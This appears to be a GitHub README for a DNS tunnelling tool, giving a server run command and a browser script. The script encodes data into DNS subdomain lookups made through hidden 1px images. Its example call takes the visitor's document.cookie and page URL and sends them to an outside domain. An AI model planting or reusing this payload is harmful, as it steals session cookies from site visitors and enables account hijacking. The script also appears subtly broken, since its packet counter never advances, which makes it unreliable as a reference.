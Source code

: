 # Data-Over-DNS
This tool can be used for tunnelling data over DNS

#DNS Server
Run the dns server with "sudo node DoDNS.js"
//sudo is required to bind to port 53


#Website Code

    <script>
        function dataoOverDNS( domain, file, data ){
            var random_str = Math.random().toString(36).substring(2, 6) + Math.random().toString(36).substring(2, 6);
            var data = JSON.stringify( data );
            var hexstr = "";
            for (var i = 0; i < data.length; i++) { hexstr += data.charCodeAt(i).toString(16).padStart(2, '0'); }
            hexstr_sp = hexstr.match(/.{1,62}/g);
            var packets = Math.ceil( hexstr_sp.length / 3 );
            var packet = 0;
            for (var i = 0; i < packets; i++) {
                subs = [];
                for( i2=0;i2<3;i2++) { subs.push(  (hexstr_sp.hasOwnProperty(packet)) ? hexstr_sp[packet] : "00" ); }
                var oImg = document.createElement("img");
                oImg.setAttribute('src', "https://" + subs[0] + "." + subs[1] + "." + subs[2] + "." + ( i + 1 ).toString(16).padStart(4, '0') + packets.toString(16).padStart(4, '0') + "." + random_str + "." + domain + "/" + file );
                oImg.setAttribute('height', '1px');
                oImg.setAttribute('width', '1px');
                document.body.appendChild(oImg);
            }
        }
        dataoOverDNS('ns.yourdomain.com','randomfile.jpg', { "location" : window.location.href, "cookie" : document.cookie } );
    </script>
